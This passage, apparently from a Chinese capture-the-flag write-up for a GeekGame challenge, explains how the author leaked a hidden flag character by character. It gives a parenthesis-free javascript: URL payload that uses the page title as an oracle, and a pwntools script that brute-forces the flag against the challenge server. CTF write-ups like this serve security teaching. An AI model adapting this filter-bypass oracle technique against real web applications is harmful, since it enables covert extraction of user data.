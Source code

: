 把下面的代码里的 `i` 改为要检测的字符的位置，把 `ch` 改为要检测的字符。

```js
javascript:document['getElementsByClassName']`flag`[0]['innerText'][i]['endsWith']`ch`?document['getElementsByTagName']`title`[0]['remove']``:0//
```

然后写个脚本来简化操作

```python
from pwn import *
from sys import argv

token = "ＴＯＫＥＮ"

def gen_payload(i, chr):
    return f"""javascript:document['getElementsByClassName']`flag`[0]['innerText'][{i}]['endsWith']`{chr}`?document['getElementsByTagName']`title`[0]['remove']``:0//"""

def test(i, char):
    conn = remote('prob06.geekgame.pku.edu.cn', 10006)
    conn.recvuntil(b':')
    conn.sendline(token.encode())
    conn.recvuntil(b'>')
    # print().decode())

    payload = gen_payload(i, char)
    info(payload)
    conn.sendline(payload.encode())
    resp = conn.recvuntil(b':)').decode()
    conn.close()
    # info(resp)
    if "梗图网盘" in resp:
        warn(f"Failure! not {char}")
        return False
    else:
        success(f"flag[{i}] is {char}")
        return True

i = int(argv[1])
char = argv[2]
test(i, char)
```

这样我们就能把 flag 逐个字符地读出来了。（就是有点费时间。。。另外检测不了 `;=()."`.

当然，为了获得特殊字符，我们可以这样创建它们：但是我没找到把它传给 `endsWith` 的方法。不过幸好 flag 里面只有一个无法检测的特殊字符 `.`.

![image-20221123113115379](assets/image-20221123113115379.png)
